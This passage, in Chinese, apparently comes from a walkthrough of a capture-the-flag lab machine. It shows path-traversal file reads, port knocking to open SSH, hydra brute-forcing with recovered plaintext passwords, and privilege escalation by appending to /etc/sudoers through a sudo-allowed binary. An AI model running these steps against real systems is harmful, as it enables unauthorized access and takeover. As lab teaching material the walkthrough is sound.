 S        apache2   749     23226.667264       101   120         0.000000       216.236859         0.000000 0 0 /
 S        apache2   750     23228.391180       149   120         0.000000       195.177537         0.000000 0 0 /
>R        apache2   753     23340.626529       135   120         0.000000       210.288083         0.000000 0 0 /
 S        apache2   754     23226.632239        78   120         0.000000       183.506963         0.000000 0 0 /
~~~


~~~markdown
knockd进程是在这里找到的,还有sshd等,其他不太重要,这里直接cat knockd.conf,完犊子我也不知道代佬为什么直接读取 ../../../../../../../etc/knockd.conf,留个疑问.*?

这里读取文件如下
~~~



~~~markdown
可以看到打开ssh文件需要依次以syn的形式访问7469,8475,9842这三个端口,这里用nmap -Pn来对这三个端口进行扫描
Knockd文件作用自行百度
~~~


~~~markdown
再次nmap对192.168.81.131进行探测可发现22端口已被开启
~~~


### 4.字典准备_爆破ssh

~~~markdown
在上一步中,数据库爆破的有账号密码,以及LFI中的passwd中也有重合的账号密码,分别整理为user,password用hydra爆破
hydra -L user -P password ssh://192.168.81.131
~~~


~~~markdown
获得三个账号:
chandlerb	  password: UrAG0D!
joeyt 		  password: Passw0rd
janitor 	  password: Ilovepeepee
分别对这三个账户登录, 查看用户目录下的文件,可以看到janitor主目录下有隐藏的password文件
~~~


~~~markdown
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts

利用这些密码对剩下的几个用户尝试爆破
hydra -L user.txt -P sec_pass ssh://192.168.81.131 得到新用户 fredf 密码 B4-Tru3-001
~~~


~~~markdown
hint: 登录每个用户后查看sudo -l ,看每个用户sudo能执行的文件
这里我就不都做演示了,可以看到fredf可以执行文件/opt/devstuff/dist/test/test
~~~


~~~markdown
这里less 一下目标文件,可以看到是elf
~~~


~~~markdown
cd 到devstuff,可以看到有test.py
~~~


~~~python
读取test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

 意思很简单,传入参数个数等于2时,才执行else里边的代码
 python test.py arg1 arg2
    读取arg1的文件内容,写入arg2文件
 
#由于这个py可以写入任何文件,所以任何跟提权相关的文件都可以作为跳板
~~~

### 5. 提权

#### 1. sudoer

~~~markdown
Linux默认是没有将用户添加到sudoers列表中的，需要root手动将账户添加到sudoers列表中，才能让普通账户执行sudo命令。
这是kali上的sudoer ,思路即将 joeyt    ALL=(ALL:ALL) ALL 添加到文件里即可
~~~


~~~markdown
vi demo 内容
joeyt    ALL=(ALL:ALL) ALL 
fredf    ALL=(ALL:ALL) ALL
将demo写入到sudoers
opt/devstuff/dist/test$ test /tmp/demo /etc/sudoers 

写入后 sudo bash 即可进入root 提权成功
~~~


#### 2.openssl passwd

```markdown
另一种方式是直接新建一个用户写入passwd提权,明天结束
```


